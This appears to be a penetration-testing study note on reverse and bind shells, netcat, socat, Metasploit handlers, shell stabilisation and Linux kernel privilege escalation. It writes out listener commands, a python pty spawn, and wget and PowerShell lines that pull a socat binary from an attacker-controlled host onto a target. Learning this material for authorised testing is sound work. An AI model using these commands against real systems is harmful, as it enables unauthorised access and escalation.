



# **Types of Privilege Escalations**

* **Reverse shells** -  are when the target is forced to execute code that connects back to your computer. On your own computer you would use one of the tools mentioned in the previous task to set up a listener which would be used to receive the connection. Reverse shells are a good way to bypass firewall rules that may prevent you from connecting to arbitrary ports on the target; however, the drawback is that, when receiving a shell from a machine across the internet, you would need to configure your own network to accept the shell
* **Bind shells** are when the code executed on the target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way. This has the advantage of not requiring any configuration on your own network, but may be prevented by firewalls protecting the target.

Shells can be either interactive or non-interactive.

* **Interactive** -  If you've used Powershell, Bash, Zsh, sh, or any other standard CLI environment then you will be used to
interactive shells. These allow you to interact with programs after executing them. For example:





Here you can see that it's asking interactively that the user type either yes or no in order to continue the connection. This is an interactive program, which requires an interactive shell in order to run.

* **Non-interactive** shells don't give you that luxury. In a non-interactive shell you are limited to using programs which do not require user interaction in order to run properly. Unfortunately, the majority of simple reverse and bind shells are non-interactive, which can make further exploitation trickier. For example:


# **Tools**



**Netcat:**

Netcat is the traditional "Swiss Army Knife" of networking. It is used to manually perform all kinds of network interactions, including things like banner grabbing during enumeration, but more importantly for our uses, it can be used to receive reverse shells and connect to remote ports attached to bind shells on a target system. Netcat shells are very unstable (easy to lose) by default, but can be improved by techniques that we will be covering in an upcoming task.

**Socat:**

Socat is like netcat on steroids. It can do all of the same things, and many more. Socat shells are usually more stable than netcat shells out of the box. In this sense it is vastly superior to netcat; however, there are two big catches:

The syntax is more difficult
Netcat is installed on virtually every Linux distribution by default. Socat is very rarely installed by default.
There are work arounds to both of these problems, which we will cover later on.

Both Socat and Netcat have .exe versions for use on Windows.

**Metasploit -- multi/handler:**

The `auxiliary/multi/handler` module of the Metasploit framework is, like socat and netcat, used to receive reverse shells. Due to being part of the Metasploit framework, multi/handler provides a fully-fledged way to obtain stable shells, with a wide variety of further options to improve the caught shell. It's also the only way to interact with a meterpreter shell, and is the easiest way to handle staged payloads -- both of which we will look at in task 9.

**Msfvenom:**

Like multi/handler, msfvenom is technically part of the Metasploit Framework, however, it is shipped as a standalone tool. Msfvenom is used to generate payloads on the fly. Whilst msfvenom can generate payloads other than reverse and bind shells, these are what we will be focusing on in this room. Msfvenom is an incredibly powerful tool, so we will go into its application in much more detail in a dedicated task.

## ***Netcat***

*Reverse shell*

The syntax for starting a netcat listener using Linux is this:

    nc -lvnp <port-number>

* `l` - is used to tell netcat that this will be a listener
* `v` - is used to request a verbose output
* `n` - tells netcat not to resolve host names or use DNS. 
* `p` - indicates that the port specification will follow.

*Bind shell*

The syntax for this is relatively straight forward:

    nc <target-ip> <chosen-port>


## ***Netcat shell stabilisation***

Ok, so we've caught or connected to a netcat shell, what next?

These shells are very unstable by default. Pressing Ctrl + C kills the whole thing. They are non-interactive, and often have strange formatting errors. This is due to netcat "shells" really being processes running inside a terminal, rather than being bonafide terminals in their own right. Fortunately, there are many ways to stabilise netcat shells on Linux systems. We'll be looking at three here. Stabilisation of Windows reverse shells tends to be significantly harder; however, the second technique that we'll be covering here is particularly useful for it.

### **Technique 1: Python**

1. Spawning better shell:

        python -c 'import pty;pty.spawn("/bin/bash")'

    In case of error, try `python3/python2` insted of `python`.

2. `export TERM=xterm` - this will give us access to term commands such as clear.
3. Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

Full example below:




### **Technique 2: rlwrap**

rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it:

    sudo apt install rlwrap

To use rlwrap, we invoke a slightly different listener:

    rlwrap nc -lnvp <port>

Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.


### **Technique 3: Socat**

The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a socat static compiled binary (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed:

```powershell
Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe 
```

We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks.


# **Privilege escalation**

## **Abusing kernel**

Privilege escalation ideally leads to root privileges. This can sometimes be achieved simply by exploiting an existing vulnerability, or in some cases by accessing another user account that has more privileges, information, or access.


Unless a single vulnerability leads to a root shell, the privilege escalation process will rely on misconfigurations and lax permissions.


The kernel on Linux systems manages the communication between components such as the memory on the system and applications. This critical function requires the kernel to have specific privileges; thus, a successful exploit will potentially lead to root privileges.


The Kernel exploit methodology is simple;

1. Identify the kernel version
2. Search and find an exploit code for the kernel version of the target system
3. Run the exploit

Although it looks simple, please remember that a failed kernel exploit can lead to a system crash. Make sure this potential outcome is acceptable within the scope of your penetration testing engagement before attempting a kernel exploit.


Research sources:

Based on your findings, you can use Google to search for an existing exploit code.
Sources such as https://www.linuxkernelcves.com/cves can also be useful.
Another alternative would be to use a script like LES (Linux Exploit Suggester) but remember that these tools can generate false positives (report a kernel vulnerability that does not affect the target system) or false negatives (not report any kernel vulnerabilities although the kernel is vulnerable).


